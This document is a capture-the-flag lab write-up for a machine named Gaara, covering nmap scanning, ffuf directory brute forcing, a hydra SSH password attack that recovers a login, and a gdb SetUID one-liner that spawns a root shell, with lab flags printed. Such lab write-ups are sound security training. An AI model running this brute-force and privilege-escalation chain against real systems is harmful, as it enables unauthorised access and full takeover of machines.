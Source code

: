```yaml
---
custom_edit_url: null
pagination_next: null
pagination_prev: null
---
```


## Reconnaissance

### Nmap scan

Let's perform an `nmap` scan to find the open ports and the services running on the open ports.

```
$ nmap -T5 -Pn -A -p- 192.168.205.142
Starting Nmap 7.92 ( https://nmap.org ) at 2024-05-02 13:54 IST
Warning: 192.168.205.142 giving up on port because retransmission cap hit (2).
Nmap scan report for 192.168.205.142
Host is up (0.073s latency).
Not shown: 62577 closed tcp ports (conn-refused), 2956 filtered tcp ports (no-response)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
| ssh-hostkey: 
|   2048 3e:a3:6f:64:03:33:1e:76:f8:e4:98:fe:be:e9:8e:58 (RSA)
|   256 6c:0e:b5:00:e7:42:44:48:65:ef:fe:d7:7c:e6:64:d5 (ECDSA)
|_  256 b7:51:f2:f9:85:57:66:a8:65:54:2e:05:f9:40:d2:f4 (ED25519)
80/tcp open  http    Apache httpd 2.4.38 ((Debian))
|_http-title: Gaara
|_http-server-header: Apache/2.4.38 (Debian)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 393.91 seconds
```

There are two open ports:

| Port | Service |
| :-: | :-: |
| 22   | ssh     |
| 80   | http    |

### Web enumeration

Let's visit the web server through our browser.

![1](https://github.com/Kunull/Write-ups/assets/110326359/54c15681-c889-4f61-baac-2cb77914a936)

Nothing useful, just a picture of the anime character [Gaara](https://en.wikipedia.org/wiki/Gaara).

### Directory enumeration

We can use `ffuf` to brute force the web directories on the web server.

```
$ ffuf -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -u http://192.168.205.142:80/FUZZ | grep "Status: 200"
________________________________________________

Cryoserver              [Status: 200, Size: 327, Words: 1, Lines: 303, Duration: 75ms]
:: Progress: [220560/220560] :: Job [1/1] :: 546 req/sec :: Duration: [0:10:12] :: Errors: 0 ::
```

If we visit the `/Cryoserver` page, we can find the following information.

![4](https://github.com/Kunull/Write-ups/assets/110326359/f6d40651-cb2d-498d-bc72-f2e0edda2ed7)

So, there are three other directories.

However, all of these include some story regarding the [Gaara](https://en.wikipedia.org/wiki/Gaara) character and serve asrabit holes.


## Exploitation

### Brute forcing SSH password

Now that we know the machine is based on [Gaara](https://en.wikipedia.org/wiki/Gaara), we can assume that there must be a `gaara` user.

Let's brute force the passwords for this `gaara` user.

```
$ hydra -l gaara -P /usr/share/wordlists/rockyou.txt ssh://192.168.205.142
Hydra v9.3 (c) 2022 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2024-05-02 14:08:26
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[DATA] max 16 tasks per 1 server, overall 16 tasks, 14344399 login tries (l:1/p:14344399), ~896525 tries per task
[DATA] attacking ssh://192.168.205.142:22/
[STATUS] 115.00 tries/min, 115 tries in 00:01h, 14344286 to do in 2078:53h, 14 active
[22][ssh] host: 192.168.205.142   login: gaara   password: iloveyou2
1 of 1 target successfully completed, 1 valid password found
[WARNING] Writing restore file because 1 final worker threads did not complete until end.
[ERROR] 1 target did not resolve or could not be connected
[ERROR] 0 target did not complete
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2024-05-02 14:10:57
```

| Username | Password  |
| :-: | :-: |
| gaara    | iloveyou2 |

### SSH login

```
$ ssh gaara@192.168.205.142
The authenticity of host '192.168.205.142 (192.168.205.142)' can't be established.
ED25519 key fingerprint is SHA256:XpX1VX2RtX8OaktJHdq89ZkpLlYvr88cebZ0tPZMI0I.
This key is not known by any other names
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '192.168.205.142' (ED25519) to the list of known hosts.
gaara@192.168.205.142's password: 
Linux Gaara 4.19.0-13-amd64 #1 SMP Debian 4.19.160-2 (2020-11-28) x86_64

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
gaara@Gaara:~$ 
```


## Post Exploitation
### local.txt

Let's `cat` the `local.txt` flag.

```
gaara@Gaara:~$ cat local.txt
c728c520ab0c97b7ea9820a1b73a0254
```

### Privilege Escalation

#### SetUID binaries

We can use the `find` command to search for files on the system where the `setuid` bit is set.

```
gaara@Gaara:~$ find / -perm -u=s -type f 2>/dev/null
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/eject/dmcrypt-get-device
/usr/lib/openssh/ssh-keysign
/usr/bin/gdb
/usr/bin/sudo
/usr/bin/gimp-2.10
/usr/bin/fusermount
/usr/bin/chsh
/usr/bin/chfn
/usr/bin/gpasswd
/usr/bin/newgrp
/usr/bin/su
/usr/bin/passwd
/usr/bin/mount
/usr/bin/umount
```

We can now use on of these files to escalate our privilege.

Let's go to [GTFOBins]([https://gtfobins.github.io](https://gtfobins.github.io/gtfobins/gdb/#suid)) to search for an exploit for the `gdb` utility. 

![3](https://github.com/user-attachments/assets/1e696a96-6647-4730-8162-bbf32d570d32)

Since we want a Bash shell, we have to modify the exploit slightly.

```
gdb -nx -ex 'python import os; os.execl("/bin/bash", "sh", "-p")' -ex quit
```

```
gaara@Gaara:~$ gdb -nx -ex 'python import os; os.execl("/bin/bash", "sh", "-p")' -ex quit
GNU gdb (Debian 8.2.1-2+b3) 8.2.1
Copyright (C) 2018 Free Software Foundation, Inc.
License GPLv3+: GNU GPL version 3 or later <http://gnu.org/licenses/gpl.html>
This is free software: you are free to change and redistribute it.
There is NO WARRANTY, to the extent permitted by law.
Type "show copying" and "show warranty" for details.
This GDB was configured as "x86_64-linux-gnu".
Type "show configuration" for configuration details.
For bug reporting instructions, please see:
<http://www.gnu.org/software/gdb/bugs/>.
Find the GDB manual and other documentation resources online at:
    <http://www.gnu.org/software/gdb/documentation/>.

For help, type "help".
Type "apropos word" to search for commands related to "word".
sh-5.0# whoami
root
```

### proof.txt

We can now `cat` the `proof.txt` flag.

```
sh-5.0# cat /root/proof.txt
2c39a99c3217a56762321da6bf9860b3
```

